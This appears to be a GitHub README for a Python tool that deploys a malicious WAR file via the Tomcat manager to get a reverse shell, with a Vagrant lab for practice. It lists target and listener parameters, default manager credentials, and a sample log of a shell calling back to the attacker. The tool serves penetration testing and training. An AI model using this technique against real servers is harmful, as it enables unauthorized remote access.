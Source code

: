 # Tomcat Reverse Shell 🐱‍🐉

🚀 This repository contains a Python script for generating and deploying a Tomcat reverse shell payload, along with a Vagrant-based lab environment for testing it. This project is intended for ethical penetration testers, CTF players, and security researchers.🕵️‍♂️👾

## Getting Started 🏁

Let's dive right in! Follow these steps to set up both the testing environment and the Python script environment.

### Setting Up the Lab Environment 🧪

Follow these instructions to set up both the testing environment and the Python script environment.

1. Install [Vagrant](https://www.vagrantup.com/downloads) on your local machine.📦

2. Clone this repository to your local machine.

```bash
   git clone https://github.com/m-abdenni/tomcat_revshell.git
```

3. Change to the lab directory.

```bash
   cd tomcat_revshell/lab
```

4. Run the following command to provision the Vagrant environment.

```bash
   vagrant up
```
That's it! The lab environment will be configured, and you can access it using Vagrant commands. 🎉

> Note: The default credentials for accessing the Tomcat manager web application (/manager/html) are tomcat (username) and s3cret (password). Please ensure these are correct if you intend to use the manager web application for deployment. 🔐

### Setting Up the Python Script Environment 🐍

1. Install Python 3 on your local machine if you haven't already.🐍

2. Create a virtual environment and activate it.

```bash
   python3 -m venv venv
   source venv/bin/activate  # On Windows, use `venv\Scripts\activate`
```

3. Install the required Python packages.

```bash
   pip install -r requirements.txt
```

## Usage 🚀

Before running the Python script `main.py`, make sure to configure the following required parameters in the script according to your environment:

```bash
   # Required params
   rhost = "192.168.56.10"  # Replace with the IP address of your target Tomcat server
   rport = 8080             # Replace with the port of your target Tomcat server
   lhost = "192.168.56.1"   # Replace with your local IP address
   lport = 8888             # Replace with your desired local port
   username = "tomcat"      # Replace with the Tomcat username (if applicable)
   password = "s3cret"      # Replace with the Tomcat password (if applicable)
   shell_name = "revshell"  # Replace with your desired reverse shell name
```

* Once you've configured these parameters to match your environment, you can proceed with running the script as mentioned earlier.✅

> Make sure the parameters are set correctly to ensure proper functionality.🛠️

```bash
   python main.py
```

Here's an example of the script's output when successfully connected to the target server:

```bash
[+] WAR file uploaded and deployed successfully.
[+] Listener started on 192.168.56.1:8888
[+] Trying to bind to 192.168.56.1 on port 8888: Done
[+] Waiting for connections on 192.168.56.1:8888: Got connection from 192.168.56.10 on port 49326
bash: cannot set terminal process group (6517): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@ubuntu-focal:/$ id
id
uid=1002(tomcat) gid=1002(tomcat) groups=1002(tomcat)
tomcat@ubuntu-focal:/$ whoami
whoami
tomcat
tomcat@ubuntu-focal:/$ exit
[!] Exiting...
[!] Cleaning...
[*] Deleted index.jsp
[*] Deleted revshell.war
[*] Undeployed the revshell.
```

## Contribution and Future Updates 🌟

Contributions from the community are highly appreciated and play a crucial role in the growth of this project. Here's how you can contribute:

- **Bug Fixes:** If you encounter any issues or bugs while using the script or the lab environment, please open an issue on this repository.🐞

- **Enhancements:** Have ideas to improve this project? You can submit a pull request with your enhancements or features.🌟

- **Documentation:** Help improve the documentation by adding examples or clarifying existing instructions.📖

- **Security Improvements:** If you have expertise in security, your insights are valuable. Feel free to suggest security enhancements or best practices.🔒

Your contributions are essential in making this tool more robust and effective.💪

Stay tuned for future releases, and don't hesitate to share your ideas, suggestions, or contributions to further enhance this project.🚀🔮
